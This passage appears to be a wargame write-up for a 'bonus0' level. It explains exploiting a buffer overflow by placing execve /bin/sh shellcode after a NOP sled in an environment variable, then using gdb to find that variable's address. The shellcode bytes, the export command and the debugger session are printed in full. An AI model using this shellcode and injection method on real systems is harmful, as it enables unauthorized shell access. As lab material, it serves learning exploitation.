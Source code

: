 We have a problem, we have to write a shellcode
\x31\xc0\x99\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80		--> 24 bytes
but we only have 19 bytes for the second input (I explained that above)
So we have to store this shellcode somewhere in the memory and then jump to it.
We know that in the main arguments we have argc, argv and envp, and even if we have something like this :
main (void)
The env still exists in the memory, so we can store our shellcode, find the address of it and then jump to it.
To don t have a problem we add some NOP before the shellcode.

export SHELLCODEINJECTION=$(python -c 'print "\x90"*128 + "\x31\xc0\x99\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80"')

After we can find our env var with this command :
https://security.stackexchange.com/questions/13194/finding-environment-variables-with-gdb-to-exploit-a-buffer-overflow
https://shankaraman.wordpress.com/tag/finding-environment-variable-address-using-gdb/
(gdb) x/s *((char **)environ)

gdb ./bonus0 
(gdb) b main
Breakpoint 1 at 0x80485a7
(gdb) run
Starting program: /home/user/bonus0/bonus0 
(gdb) x/s *((char **)environ+1)
0xbffff872:	 "SHELL=/bin/bash"
(gdb) x/s *((char **)environ+2)
0xbffff882:	 "SSH_CLIENT=192.168.56.1 49848 4242"
(gdb) x/s *((char **)environ+3)
0xbffff8a5:	 "SSH_TTY=/dev/pts/0"
(gdb) x/s *((char **)environ+4)
0xbffff8b8:	 "USER=bonus0"
(gdb) x/s *((char **)environ+5)
0xbffff8c4:	 "LS_COLORS=rs=0:di=01;34:ln=01;36:mh=00:pi=40;33:so=01;35:do=01;35:bd=40;33;01:cd=40;33;01:or=40;31;01:su=37;41:sg=30;43:ca=30;41:tw=30;42:ow=34;42:st=37;44:ex=01;32:*.tar=01;31:*.tgz=01;31:*.arj=01;31"...
(gdb) x/s *((char **)environ+6)
0xbffffde5:	 "COLUMNS=134"
(gdb) x/s *((char **)environ+7)
0xbffffdf1:	 "MAIL=/var/mail/bonus0"
(gdb) x/s *((char **)environ+8)
0xbffffe07:	 "PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games"
(gdb) x/s *((char **)environ+9)
0xbffffe54:	 "_=/usr/bin/gdb"
(gdb) x/s *((char **)environ+10)
0xbffffe63:	 "PWD=/home/user/bonus0"
(gdb) x/s *((char **)environ+11)
0xbffffe79:	 "LANG=en_US.UTF-8"
(gdb) x/s *((char **)environ+12)
0xbffffe8a:	 "LINES=32"
(gdb) x/s *((char **)environ+13)
0xbffffe93:	 "SHELLCODEINJECTION=\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\061\300\231Ph//shh/bin\211\343PS\211\341\260\v̀"
